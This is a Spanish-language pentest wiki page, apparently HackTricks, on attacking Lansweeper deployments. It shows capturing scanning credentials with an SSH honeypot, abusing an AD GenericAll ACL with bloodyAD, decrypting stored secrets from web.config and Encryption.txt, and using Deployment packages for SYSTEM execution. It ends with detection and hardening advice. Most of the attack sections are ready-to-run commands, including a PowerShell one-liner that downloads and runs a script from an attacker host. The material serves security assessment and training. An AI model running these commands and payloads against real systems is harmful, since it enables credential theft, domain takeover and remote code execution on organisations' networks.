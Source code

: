 # Lansweeper Abuse: Credential Harvesting, Secrets Decryption, and Deployment RCE

{{#include ../../banners/hacktricks-training.md}}

Lansweeper es una plataforma de descubrimiento e inventario de activos IT comúnmente desplegada en Windows e integrada con Active Directory. Las credenciales configuradas en Lansweeper son utilizadas por sus motores de escaneo para autenticarse en activos mediante protocolos como SSH, SMB/WMI y WinRM. Las malas configuraciones con frecuencia permiten:

- Intercepción de credenciales redirigiendo un Scanning Target a un host controlado por el atacante (honeypot)
- Abuso de ACLs de AD expuestas por grupos relacionados con Lansweeper para obtener acceso remoto
- Descifrado en el host de secretos configurados en Lansweeper (connection strings y credenciales de scanning almacenadas)
- Ejecución de código en endpoints gestionados a través de la función Deployment (a menudo ejecutándose como SYSTEM)

Esta página resume flujos de trabajo prácticos y comandos que un atacante puede usar para explotar estos comportamientos durante evaluaciones.

## 1) Recolección de credenciales de escaneo vía honeypot (ejemplo SSH)

Idea: crea un Scanning Target que apunte a tu host y asigna las Scanning Credentials existentes a él. Cuando se ejecute el scan, Lansweeper intentará autenticarse con esas credenciales y tu honeypot las capturará.

Steps overview (web UI):
- Scanning → Scanning Targets → Add Scanning Target
- Type: IP Range (or Single IP) = tu IP de VPN
- Configura el puerto SSH a uno accesible (por ejemplo, 2022 si el 22 está bloqueado)
- Desactiva la programación y planifícalo para ejecutarlo manualmente
- Scanning → Scanning Credentials → asegúrate de que existan credenciales Linux/SSH; asígnalas al nuevo Scanning Target (activa todas según sea necesario)
- Haz clic en “Scan now” en el target
- Ejecuta un honeypot SSH y recupera el usuario/contraseña intentados

Ejemplo con sshesame:
```yaml
# sshesame.conf
server:
listen_address: 10.10.14.79:2022
```

```bash
# Install and run
sudo apt install -y sshesame
sshesame --config sshesame.conf
# Expect client banner similar to RebexSSH and cleartext creds
# authentication for user "svc_inventory_lnx" with password "<password>" accepted
# connection with client version "SSH-2.0-RebexSSH_5.0.x" established
```
Validar las creds capturadas contra los servicios del DC:
```bash
# SMB/LDAP/WinRM checks (NetExec)
netexec smb   inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
netexec ldap  inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
netexec winrm inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
```
Notas
- Funciona de manera similar para otros protocolos cuando puedes hacer que el scanner se conecte a tu listener (honeypots SMB/WinRM, etc.). SSH suele ser lo más sencillo.
- Muchos scanners se identifican con banners de cliente distintos (p. ej., RebexSSH) y probarán comandos benignos (uname, whoami, etc.).

## 2) AD ACL abuse: obtener acceso remoto añadiéndote a un grupo app-admin

Usa BloodHound para enumerar los derechos efectivos de la cuenta comprometida. Un hallazgo común es un grupo específico del scanner o de la app (p. ej., “Lansweeper Discovery”) que tiene GenericAll sobre un grupo privilegiado (p. ej., “Lansweeper Admins”). Si el grupo privilegiado también es miembro de “Remote Management Users”, WinRM estará disponible una vez que nos añadamos.

Ejemplos de recopilación:
```bash
# NetExec collection with LDAP
netexec ldap inventory.sweep.vl -u svc_inventory_lnx -p '<password>' --bloodhound -c All --dns-server <DC_IP>

# RustHound-CE collection (zip for BH CE import)
rusthound-ce --domain sweep.vl -u svc_inventory_lnx -p '<password>' -c All --zip
```
Exploit GenericAll en un grupo con BloodyAD (Linux):
```bash
# Add our user into the target group
bloodyAD --host inventory.sweep.vl -d sweep.vl -u svc_inventory_lnx -p '<password>' \
add groupMember "Lansweeper Admins" svc_inventory_lnx

# Confirm WinRM access if the group grants it
netexec winrm inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
```
Luego obtén una shell interactiva:
```bash
evil-winrm -i inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
```
Consejo: las operaciones de Kerberos son sensibles al tiempo. Si recibes KRB_AP_ERR_SKEW, sincronízate con el DC primero:
```bash
sudo ntpdate <dc-fqdn-or-ip>   # or rdate -n <dc-ip>
```
## 3) Desencriptar secretos configurados por Lansweeper en el host

En el servidor de Lansweeper, el sitio ASP.NET suele almacenar una cadena de conexión encriptada y una clave simétrica usada por la aplicación. Con acceso local adecuado, puedes desencriptar la cadena de conexión de la DB y luego extraer las credenciales de escaneo almacenadas.

Ubicaciones típicas:
- Web config: `C:\Program Files (x86)\Lansweeper\Website\web.config`
- `<connectionStrings configProtectionProvider="DataProtectionConfigurationProvider">` … `<EncryptedData>…`
- Clave de la aplicación: `C:\Program Files (x86)\Lansweeper\Key\Encryption.txt`

Usa SharpLansweeperDecrypt para automatizar la desencriptación y el volcado de las credenciales almacenadas:
```powershell
# From a WinRM session or interactive shell on the Lansweeper host
# PowerShell variant
Upload-File .\LansweeperDecrypt.ps1 C:\ProgramData\LansweeperDecrypt.ps1   # depending on your shell
powershell -ExecutionPolicy Bypass -File C:\ProgramData\LansweeperDecrypt.ps1
# Tool will:
#  - Decrypt connectionStrings from web.config
#  - Connect to Lansweeper DB
#  - Decrypt stored scanning credentials and print them in cleartext
```
El resultado esperado incluye detalles de conexión a la base de datos (DB) y credenciales de escaneo en texto plano, como cuentas de Windows y Linux utilizadas en todo el entorno. Estas a menudo tienen privilegios locales elevados en los hosts del dominio:
```text
Inventory Windows  SWEEP\svc_inventory_win  <StrongPassword!>
Inventory Linux    svc_inventory_lnx        <StrongPassword!>
```
Usar Windows scanning creds recuperadas para acceso privilegiado:
```bash
netexec winrm inventory.sweep.vl -u svc_inventory_win -p '<StrongPassword!>'
# Typically local admin on the Lansweeper-managed host; often Administrators on DCs/servers
```
## 4) Lansweeper Deployment → SYSTEM RCE

Como miembro de “Lansweeper Admins”, la web UI expone Deployment y Configuration. Bajo Deployment → Deployment packages, puedes crear paquetes que ejecutan comandos arbitrarios en activos objetivo. La ejecución la realiza el servicio de Lansweeper con altos privilegios, otorgando ejecución de código como NT AUTHORITY\SYSTEM en el host seleccionado.

High-level steps:
- Crea un nuevo Deployment package que ejecute un one-liner de PowerShell o cmd (reverse shell, add-user, etc.).
- Apunta al asset deseado (por ejemplo, el DC/host donde se ejecuta Lansweeper) y haz clic en Deploy/Run now.
- Captura tu shell como SYSTEM.

Example payloads (PowerShell):
```powershell
# Simple test
powershell -nop -w hidden -c "whoami > C:\Windows\Temp\ls_whoami.txt"

# Reverse shell example (adapt to your listener)
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://<attacker>/rs.ps1')"
```
OPSEC
- Deployment actions are noisy and leave logs in Lansweeper and Windows event logs. Use judiciously.

## Detección y endurecimiento

- Restringir o eliminar las enumeraciones SMB anónimas. Monitorizar el RID cycling y el acceso anómalo a los shares de Lansweeper.
- Controles de salida (egress): bloquear o restringir estrictamente el tráfico saliente SSH/SMB/WinRM desde los hosts scanner. Alertar sobre puertos no estándar (p. ej., 2022) y banners de cliente inusuales como Rebex.
- Proteger `Website\\web.config` y `Key\\Encryption.txt`. Externalizar secretos en un vault y rotarlos en caso de exposición. Considerar cuentas de servicio con privilegios mínimos y gMSA cuando sea viable.
- Monitoreo de AD: alertar sobre cambios en grupos relacionados con Lansweeper (p. ej., “Lansweeper Admins”, “Remote Management Users”) y sobre cambios de ACL que otorguen membresía GenericAll/Write en grupos privilegiados.
- Auditar la creación/cambios/ejecución de paquetes de Deployment; alertar sobre paquetes que lancen cmd.exe/powershell.exe o conexiones salientes inesperadas.

## Temas relacionados
- Enumeración SMB/LSA/SAMR y RID cycling
- Password spraying en Kerberos y consideraciones sobre clock skew
- Análisis de rutas con BloodHound de grupos application-admin
- Uso de WinRM y movimiento lateral

## Referencias
- [HTB: Sweep — Abusing Lansweeper Scanning, AD ACLs, and Secrets to Own a DC (0xdf)](https://0xdf.gitlab.io/2025/08/14/htb-sweep.html)
- [sshesame (SSH honeypot)](https://github.com/jaksi/sshesame)
- [SharpLansweeperDecrypt](https://github.com/Yeeb1/SharpLansweeperDecrypt)
- [BloodyAD](https://github.com/CravateRouge/bloodyAD)
- [BloodHound CE](https://github.com/SpecterOps/BloodHound)

{{#include ../../banners/hacktricks-training.md}}
